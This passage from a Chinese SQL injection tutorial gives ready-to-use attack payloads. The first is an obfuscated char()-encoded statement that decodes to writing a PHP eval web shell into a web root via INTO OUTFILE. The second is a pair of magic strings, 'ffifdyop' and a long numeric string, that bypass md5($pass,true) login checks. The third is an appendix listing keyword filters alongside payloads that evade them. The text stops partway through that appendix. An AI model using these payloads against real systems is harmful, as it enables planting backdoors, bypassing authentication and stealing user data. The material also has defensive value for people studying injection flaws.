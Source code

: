 ```
set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,119,104,111,97,109,105,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare s1 from @sql;execute s1;
```
##  14.’“.md5($pass,true).”’ 登录绕过

很多站点为了安全都会利用这样的语句：
```
SELECT * FROM users WHERE password = '.md5($password,true).';
```
md5(string,true) 函数在指定了true的时候，是返回的原始 16 字符二进制格式，也就是说会返回这样子的字符串：'or’6\xc9]\x99\xe9!r,\xf9\xedb\x1c：

![](https://img-blog.csdnimg.cn/2611a867b98e45589be9b4aacbab0061.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA56iL5bqP5ZGY5bGK55qE5bCP6I-c6bih,size_20,color_FFFFFF,t_70,g_se,x_16)

这不是普通的二进制字符串，而是 'or’6\xc9]\x99\xe9!r,\xf9\xedb\x1c 这种，这样的话就会和前面的形成闭合，构成万能密码。

SELECT * FROM users WHERE password = ‘‘or’6…’
这就是永真的了，这就是一个万能密码了相当于 1’ or 1=1# 或 1’ or 1#。

但是我们思考一下为什么 6\xc9]\x99\xe9!r,\xf9\xedb\x1c 的布尔值是true呢？

在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数（这类似于PHP的弱类型）。要注意的是这种情况是必须要有单引号括起来的，比如 password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1 ，也就相当于 password=‘xxx’ or true，所以返回值就是true。这里不只是1开头，只要是数字开头都是可以的。当然如果只有数字的话，就不需要单引号，比如 password=‘xxx’ or 1，那么返回值也是 true。（xxx指代任意字符）

接下来就是找到这样子的字符串，这里给出两个吧。

```
ffifdyop：
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b
129581926211651571912466741651878684928：
```

```
129581926211651571912466741651878684928：
content: 129581926211651571912466741651878684928
hex: 06da5430449f8f6f23dfc1276f722738
raw: \x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8
string: T0Do#'or'8
```

##  附录 PHP中一些常见的过滤方法及绕过方式

过滤关键字   and or
```
php代码   preg_match('/(and|or)/i',$id)
会过滤的攻击代码    1 or 1=1 1 and 1=1
绕过方式    1 || 1=1 1 && 1=1
```
过滤关键字   and or union
```
php代码   preg_match('/(and|or|union)/i',$id)
会过滤的攻击代码    union select user,password from users
绕过方式    1 && (select user from users where userid=1)='admin'
```
过滤关键字   and or union where
```
php代码   preg_match('/(and|or|union|where)/i',$id)
会过滤的攻击代码    1 && (select user from users where user_id = 1) = 'admin'
绕过方式    1 && (select user from users limit 1) = 'admin'
```
过滤关键字   and or union where
```
php代码   preg_match('/(and|or|union|where)/i',$id)
```